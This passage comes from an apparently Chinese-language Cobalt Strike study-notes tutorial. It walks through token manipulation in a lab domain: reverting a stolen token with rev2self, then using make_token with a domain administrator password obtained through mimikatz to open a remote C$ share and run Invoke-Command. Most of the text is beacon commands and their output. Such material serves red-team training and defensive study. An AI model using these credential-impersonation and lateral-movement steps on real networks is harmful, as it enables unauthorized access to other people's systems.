 
发现可以成功访问了，使用 rev2self 可移除当前窃取的令牌

```powershell
beacon> rev2self
[*] Tasked beacon to revert token
[+] host called home, sent: 8 bytes
```

再次查看 uid 发现变成了原来的 SYSTEM 权限，此时 WIN-P2AASSD1AF1 主机上的文件也拒绝访问了。

```powershell
beacon> getuid
[*] Tasked beacon to get userid
[+] host called home, sent: 8 bytes
[*] You are NT AUTHORITY\SYSTEM (admin)

beacon> shell dir \\WIN-P2AASSD1AF1\C$
[*] Tasked beacon to run: dir \\WIN-P2AASSD1AF1\C$
[+] host called home, sent: 55 bytes
[+] received output:
拒绝访问。
```

#### 凭证

1、使用 make_token 创建一个令牌

```powershell
make_token DOMAIN\user password
```

在运行命令之前，需要知道要获取令牌用户的密码，这里可以使用 mimikatz 进行获取，具体的方法可参考[《CS学习笔记 | 14、powerup提权的方法》](https://teamssix.com/year/200419-150600.html)这一节中的介绍。
这里还是和上文一样的环境，在一个 SYSTEM 会话下，获取 TEAMSSIX\administrator 账号令牌，使用 mimikatz 可以得知 TEAMSSIX\administrator 账号密码为 Test111!，接下来使用 make_token 命令。

```powershell
beacon> make_token TEAMSSIX\administrator Test111!
[*] Tasked beacon to create a token for TEAMSSIX\administrator
[+] host called home, sent: 53 bytes
[+] Impersonated NT AUTHORITY\SYSTEM

beacon> shell dir \\WIN-P2AASSD1AF1\C$
[*] Tasked beacon to run: dir \\WIN-P2AASSD1AF1\C$
[+] host called home, sent: 55 bytes
[+] received output:
 驱动器 \\WIN-P2AASSD1AF1\C$ 中的卷没有标签。
 卷的序列号是 F269-89A7
 \\WIN-P2AASSD1AF1\C$ 的目录
2020/07/16  21:24    <DIR>          Program Files
2020/07/16  21:52    <DIR>          Program Files (x86)
2020/07/17  23:00    <DIR>          Users
2020/07/26  00:55    <DIR>          Windows
               0 个文件      0 字节
               4 个目录 28,493,299,712 可用字节
               
beacon> powershell Invoke-Command -computer WIN-P2AASSD1AF1 -ScriptBlock {whoami}
[*] Tasked beacon to run: Invoke-Command -computer WIN-P2AASSD1AF1 -ScriptBlock {whoami}
[+] host called home, sent: 231 bytes
[+] received output:
teamssix\administrator
```
